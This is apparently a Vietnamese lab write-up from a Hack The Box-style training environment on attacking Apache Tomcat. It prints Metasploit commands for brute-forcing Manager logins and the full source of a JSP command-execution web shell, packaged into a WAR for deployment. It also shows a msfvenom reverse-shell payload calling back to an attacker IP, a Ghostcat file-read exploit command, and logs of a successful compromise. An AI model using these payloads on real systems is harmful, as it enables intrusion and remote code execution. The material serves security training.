

# Attacking Tomcat

Sau khi phát hiện Tomcat, mục tiêu chính là kiểm tra Tomcat Manager → weak/default credentials → upload WAR → RCE. Ngoài ra cần kiểm tra Ghostcat (CVE-2020-1938).

## 1. Tomcat Manager - Login Brute Force

Endpoint quan trọng:

```
/manager
/manager/html
/host-manager
```

Có thể dùng Metasploit:

```bash
msfconsole
use auxiliary/scanner/http/tomcat_mgr_login

set VHOST web01.inlanefreight.local
set RPORT 8180
set RHOSTS 10.129.201.58
set STOP_ON_SUCCESS true
run
```

Các wordlist mặc định của Metasploit:

```
/usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt
/usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
/usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt
```

#### Debug bằng Burp

Nếu module hoạt động không như mong muốn, proxy traffic qua Burp:

```bash
set PROXIES HTTP:127.0.0.1:8080
```

Tomcat sử dụng HTTP Basic Authentication, nên username/password xuất hiện trong header `Authorization` dưới dạng Base64.

```bash
reDrose18@htb[/htb]$ echo YWRtaW46dmFncmFudA== |base64 -d

admin:vagrant
```

## 2. Tomcat Manager → WAR Upload → RCE

Nếu đăng nhập được `/manager/html` với tài khoản có role:

```
manager-gui
```

ta có thể upload WAR (Web Application Archive). WAR, hay Web Application Archive (Tệp lưu trữ ứng dụng web), được sử dụng để triển khai nhanh các ứng dụng web và sao lưu dữ liệu.

1 JSP web shell đơn giản: https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp

```jsp
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```

### Ta bắt đầu tạo WAR chứa JSP webshell

```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp
```

Upload

```
/manager/html
        ↓
Browse
        ↓
backup.war
        ↓
Deploy
```



Tomcat sẽ tạo application: `/backup`

Webshell: `/backup/cmd.jsp`

Kiểm tra: `curl "http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id"`

### Reverse shell

Có thể tạo WAR chứa JSP reverse shell bằng `msfvenom`:

```bash
msfvenom -p java/jsp_shell_reverse_tcp \
LHOST=10.10.14.15 \
LPORT=4443 \
-f war > backup.war
```

Listener: `nc -lnvp 4443`

Sau đó deploy WAR và trigger application.

Mô-đun Metasploit `multi/http/tomcat_mgr_upload` có thể được sử dụng để tự động hóa quy trình được hiển thị ở trên.

## 3. Ghostcat – CVE-2020-1938

Ghostcat là lỗ hổng unauthenticated LFI liên quan đến giao thức AJP.

Các version bị ảnh hưởng trong tài liệu:

```
Tomcat < 9.0.31
Tomcat < 8.5.51
Tomcat < 7.0.100
```

AJP thường chạy trên: `8009/tcp`

Kiểm tra: 

```bash
reDrose18@htb[/htb]$ nmap -sV -p 8009,8080 app-dev.inlanefreight.local

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-21 20:05 EDT
Nmap scan report for app-dev.inlanefreight.local (10.129.201.58)
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 9.0.30

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.36 seconds
```

→ Có AJP trên port 8009 và version Tomcat nằm trong range vulnerable → cần kiểm tra Ghostcat.

## 4. Ghostcat có thể đọc file gì?

Ghostcat trong ví dụ này không đọc được `/etc/passwd`.

Nó chỉ đọc được file/folder nằm trong web application directory (webapps).

```bash
python2.7 tomcat-ajp.lfi.py \
app-dev.inlanefreight.local \
-p 8009 \
-f WEB-INF/web.xml
```

WEB-INF/web.xml có thể chứa:

- Route.
- Servlet mapping.
- Thông tin cấu hình application.
- Thông tin nhạy cảm tùy ứng dụng.

---

Dùng msf để brute-force người dùng và mật khẩu 

```bash
msf auxiliary(scanner/http/tomcat_mgr_login) > set VHOST web01.inlanefreight.local
VHOST => web01.inlanefreight.local
msf auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
RPORT => 8180
msf auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS 10.129.210.174
RHOSTS => 10.129.210.174
msf auxiliary(scanner/http/tomcat_mgr_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf auxiliary(scanner/http/tomcat_mgr_login) > run
[!] No active DB -- Credential data will not be saved!
[-] 10.129.210.174:8180 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.129.210.174:8180 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.129.210.174:8180 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 10.129.210.174:8180 - LOGIN FAILED: admin:root (Incorrect)
[-] 10.129.210.174:8180 - LOGIN FAILED: tomcat:manager (Incorrect)
[-] 10.129.210.174:8180 - LOGIN FAILED: tomcat:role1 (Incorrect)
[+] 10.129.210.174:8180 - Login Successful: tomcat:root
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

```bash
──(duongnt185㉿WDUONGNT185CSOC)-[~/Desktop]
└─$ wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
--2026-09-15 15:24:40--  https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.111.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 829 [text/plain]
Saving to: ‘cmd.jsp’

cmd.jsp                                                     100%[=========================================================================================================================================>]     829  --.-KB/s    in 0s      

2026-09-15 15:24:41 (57.7 MB/s) - ‘cmd.jsp’ saved [829/829]

                                                                                                                                                                                                                                              
┌──(duongnt185㉿WDUONGNT185CSOC)-[~/Desktop]
└─$ zip -r backup.war cmd.jsp 
  adding: cmd.jsp (deflated 49%)
```

Đăng nhập `/manager` và tải lên file war rồi deploy 

```bash
──(duongnt185㉿WDUONGNT185CSOC)-[~/Desktop]
└─$ curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=ls  


<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
Command: ls<BR>
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var

</pre>
</BODY></HTML>

──(duongnt185㉿WDUONGNT185CSOC)-[~/Desktop]
└─$ curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=cat%20/opt/tomcat/apache-tomcat-10.0.10/webapps/tomcat_flag.txt


<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
Command: cat /opt/tomcat/apache-tomcat-10.0.10/webapps/tomcat_flag.txt<BR>
t0mcat_rc3_ftw!

</pre>
</BODY></HTML>

```

